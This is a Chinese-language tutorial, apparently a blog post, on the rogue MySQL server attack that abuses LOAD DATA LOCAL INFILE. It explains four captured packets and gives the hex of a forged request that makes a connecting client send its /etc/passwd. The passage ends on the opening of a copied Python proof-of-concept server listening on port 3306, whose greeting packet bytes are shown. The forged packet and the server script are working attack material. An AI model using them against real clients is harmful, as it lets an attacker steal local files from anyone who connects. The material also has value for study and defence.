 ![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfsxbbzX3kZvxCdHV6n61r2mKo3RPGGLEicQOE41SHPI5KquibjYzBHtf2WGf8lJrNOibqraYvvmR8Sg/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
- •  
#### 第一个数据包 客户端到服务端 COM_QUERY  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfsxbbzX3kZvxCdHV6n61r2Czxgp80ovokVGVpmnbVqYSNdveyulXQOqnHSg5QUHqicvG2ypxJAEaw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
- •  
#### 第二个数据包 服务端到客户端 LOCAL INFILE Request  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfsxbbzX3kZvxCdHV6n61r2gtFBhuOEjfoMAWdOQtsYardEEDTJTFxwvHuLuQNBqicqhTnQm4ib7vuw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
这个数据包很重要，是构造恶意 MySQL 服务器的重点，我们需要根据这个数据包的结构书写 payload。具体地说，需要伪造的部分是 MySQL 数据包的首部和 payload 部分。还记得前面的 MySQL 数据包的结构图吗？  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfsxbbzX3kZvxCdHV6n61r20ibu607CPur1Crj1hrb5hDyQWNF7EutIIO86Sia6IJONeFJ6ibrIU0gKw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
对照一下上图就会发现这个 MySQL 协议数据包的头部是  
  
0c 00 00 01  
  
对应的 payload（不是 wireshark 的那个 Payload） 是  
  
fb 2f 65 74 63 2f 70 61 73 73 77 64  
- •  
#### 第三个数据包 客户端到服务端 COM_QUERY  
  
上一个数据包服务端给客户端发送LOAL INFILE Request 的响应后，客户端发给服务端的这一个数据就包含了 /etc/passwd 文件的内容。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfsxbbzX3kZvxCdHV6n61r2zsnH9xLfbiaI2ZNhpVeBU3pr5ZUbt1ic1u6DJNkRbYNxqUDnw5Dx2LLw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
- •  
#### 第四个数据包 服务端到客户端 Ok_Packet  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LfsxbbzX3kZvxCdHV6n61r2iaibFmibyC1KU04ickj8e7BTr86loOgSoU4Qsmiavx7Kjqlu4LsdM0iaiaYSw/640?wx_fmt=other&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "null")  
  
客户端经过两个请求，成功的将自己的 /etc/passwd 文件插入到表 users 中，  
  
根据我们前面所说，客户端在发送完第一个请求之后并不会存储这个请求，而是直接丢弃。所以第二步是根据服务端的响应来进行，这里服务器就可以欺骗客户端做一些事情（改变第二个数据包的响应内容）。有了以上的铺垫，POC 的编写并不困难。只需要完成连接过程，然后修改第二个数据包的响应内容就好。  
#### POC  
  
我懒得完整编写 POC 了，所以从网上抄了一个。值得一提的是这个 POC 并不标准，在连接建立过程中发送的数据并没有包含数据包首部，而发送 payload 的时候又包含了首部。（同时从编写的代码来看好像编写者并没有对数据包的构成有一个准确的认识 hhh，当然也有可能是我错了）  
1. 1. 客户端发送请求数据包  
  
1. 2. 服务端发送 Mysql 的 Greet 与 banner 信息  
  
1. 3. 客户端发送认证请求(用户名与密码)  
  
1. 4. 这里面我们当然要保证无论输入什么密码都是可以的  
  
1. 5. 获取到文件信息直接输出  
  
```
#!/usr/bin/python
#coding: utf8
import socket
# linux :
#filestring = "/etc/passwd"
# windows:
#filestring = "C:\Windows\system32\drivers\etc\hosts"
HOST = "0.0.0.0" # open for eeeeveryone! ^_^
PORT = 3306
BUFFER_SIZE = 1024
#1 Greeting
greeting = "\x5b\x00\x00\x00\x0a\x35\x2e\x36\x2e\x32\x38\x2d\x30\x75\x62\x75\x6e\x74\x75\x30\x2e\x31\x34\x2e\x30\x34\x2e\x31\x00\x2d\x00\x00\x00\x40\x3f\x59\x26\x4b\x2b\x34\x60\x00\xff\xf7\x08\x02\x00\x7f\x80\x15\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x68\x69\x59\x5f\x52\x5f\x63\x55\x60\x64\x53\x52\x00\x6d\x79\x73\x71\x6c\x5f\x6e\x61\x74\x69\x76\x65\x5f\x70\x61\x73\x73\x77\x6f\x72\x64\x00"
```